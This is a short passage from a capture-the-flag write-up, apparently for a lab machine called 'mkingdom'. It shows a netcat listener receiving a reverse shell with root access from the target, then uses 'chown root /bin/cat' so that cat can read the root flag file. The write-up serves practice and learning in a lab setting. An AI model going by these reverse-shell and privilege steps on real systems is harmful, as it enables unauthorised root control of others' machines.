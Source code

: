 Finally start a netcat listener.

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.83.38] from (UNKNOWN) [10.10.24.178] 44416
bash: cannot set terminal process group (2877): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# 
```

## And We get the root shell. 

Even as root we can't read the flags :) 

```bash 
root@mkingdom:~# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied
```

For this just run:
```bash
chown root /bin/cat
```